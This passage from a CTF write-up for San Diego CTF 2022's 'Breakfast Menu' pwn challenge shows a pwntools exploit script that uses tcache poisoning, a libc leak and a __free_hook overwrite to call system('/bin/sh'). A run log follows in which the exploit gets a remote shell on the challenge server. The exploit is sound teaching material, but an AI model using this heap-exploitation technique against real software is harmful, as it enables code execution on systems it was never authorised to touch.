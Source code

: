 ```python
Delete(1)
Edit(1, p64(heap_base + 0x220))
Create()
Create()

# libc leak
Delete(11)
Edit(-12, p32(0xfbad3a87)+"\x01"*0x1b)
s.recvuntil("A"*8)
s.recv(8)
libc_leak = u64(s.recv(8))
libc_base = libc_leak - libc.sym.__malloc_hook - 0x70
free_hook   = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print "libc_leak =", hex(libc_leak)
print "libc_base =", hex(libc_base)

# Write __free_hook in tcache
Delete(0)
Delete(1)
Edit(1, p64(free_hook))

# Write system address in __free_hook
Create()
Create()
Edit(13, p64(system_addr))

# Start system("/bin/sh")
Edit(3, "/bin/sh\x00")
Delete(3)

s.interactive()
```

## Results:
The execution result is as follows.
```bash
mito@ubuntu:~/CTF/San_Diego_CTF_2022/Pwn_Breakfast_Menu_250$ python solve.py r
[*] '/home/mito/CTF/San_Diego_CTF_2022/Pwn_Breakfast_Menu_250/BreakfastMenu'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to breakfast.sdc.tf on port 1337: Done
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
heap_leak = 0x880300
heap_base = 0x87e000
libc_leak = 0x7fc8441e3ca0
libc_base = 0x7fc843df8000
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 28
-rwxr-xr-x 1 nobody nogroup 13000 May  6 22:02 BreakfastMenu
-rw-r--r-- 1 nobody nogroup  2405 May  5 18:23 BreakfastMenu.c
```
